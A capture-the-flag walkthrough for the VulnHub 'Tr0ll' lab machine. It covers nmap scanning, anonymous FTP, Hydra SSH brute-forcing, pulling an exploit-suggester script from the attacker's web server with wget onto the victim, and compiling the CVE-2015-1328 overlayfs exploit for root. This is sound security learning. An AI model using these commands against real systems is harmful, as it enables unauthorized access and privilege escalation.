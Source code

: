 # CTF #3 - Tr0ll
Today we are hacking into Tr0ll - a boot-to-root vulnerable machine. It's not a hard machine to hack into but it's a good one to learn new stuff and let the previous knowledge sink in.

As always, let's start with my setup:
## My Setup
- A VirtualBox VM running **Kali Linux.** 
- Another VM running **Tr0ll.** You can download it **[here.](https://www.vulnhub.com/entry/tr0ll-1,100/)** 
- A **local network** for both machines. If you want to know how to set up a local network for your VirtualBox adventures, follow [**this simple tutorial.**](https://github.com/amtzespinosa/secure-network-for-ctf)
- Coffee. You always need coffee for hacking.
- And today, to season this CTF session... Let's play [**Megadeth - Rust in Peace.**](https://www.youtube.com/watch?v=xvfU5MGyI7k&ab_channel=TheRockChannel)

Now you are all set up and ready to go!


## Recon

I always like to run a fast/aggressive scan over the network with **Nmap.** To do so, I use this command:

    sudo nmap -sV -T4 192.168.1.1/24

*192.168.1.1/24 is my local network --- yours might be different. Check it with the command* `ip a`.

**Disclaimer:** In real world situations, this scans may trigger firewalls and other network security appliances (in case the network is secure). If you want to run a softer scan, just change -sV to -sS. Once you know the open ports, you can target them individually. Change -T4 (speed 4) to -T1 (slow speed) as well. It's not undetectable but less probable.

After getting the victim's IP, I like to run another scan. This time a more **thorough and focused scan** with the command:

    sudo nmap -p- -T4 -A -O -v 192.168.1.12

This way, we get more information about the victim. Let's have a look:

    Nmap scan report for 192.168.1.12
    Host is up (0.00024s latency).
    Not shown: 65532 closed tcp ports (reset)
    
    PORT   STATE SERVICE VERSION
    
    21/tcp open  ftp     vsftpd 3.0.2
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 192.168.1.23
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 600
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.2 - secure, fast, stable
    |_End of status
    
    22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
    |   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
    |   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
    |_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
    
    80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Site doesn't have a title (text/html).
    | http-robots.txt: 1 disallowed entry 
    |_/secret
    |_http-server-header: Apache/2.4.7 (Ubuntu)
    
    MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=258 (Good luck!)
    IP ID Sequence Generation: All zeros
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

USERNAME: anonymous
PASSWORD: 

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

    get lol.pcap
   
By default it will be saved in your kali folder. Right click and "Open with Wireshark". If we analyze it, we find a message: 

    Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
    \n
    Sucks, you were so close... gotta TRY HARDER!\n

Isn't it obvious? Let's open Firefox and look for:

    http://192.168.1.12/sup3rs3cr3tdirlol/

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

    strings roflmao

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

Another directory? Hell yeah!

    http://192.168.1.12/0x0856BF/

More files. This time looks like we get a usernames list and a Pass.txt. Let's try some **SSH** bruteforcing with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but Pass.txt itself!

    sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 

Note I have made a new text document with the usernames. And quickly we find a valid combination:

**USER:** overflow
**PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

    /bin/bash -i

Oh yeah! Much better. But be careful: we are againts the clock! 

## Enumeration
Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the Linux Exploit Suggester script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

    sudo service apache2 start

Now, in **troll** machine, inside `tmp` folder:

    wget http://192.168.1.23/les.sh

> **Note:** this should be your local IP. Mine is 192.168.1.23.

Now we should give permissions to the file:

    chmod 777 les.sh

And run it:

    ./les.sh

Now we know that this machine is specifically vulnerable to:

    [+] [CVE-2015-1328] overlayfs
    
       Details: http://seclists.org/oss-sec/2015/q2/717
       Exposure: highly probable
       Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
       Download URL: https://www.exploit-db.com/download/37292

I'm leaving you both files for downloading: les.sh and the folder containing the CVE-2015-1328. Once again, we just need to upload to **troll** the exploit as we did with the les.sh script. Once you have it, we are ready to go!

## Exploitation

To compile the exploit we need to run this command:

    gcc 2015.c -o exploit

And give permissions to the output file:

    chmod 777 exploit

Now, run it!

    ./exploit

And we should see a root shell now!

    #

Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!
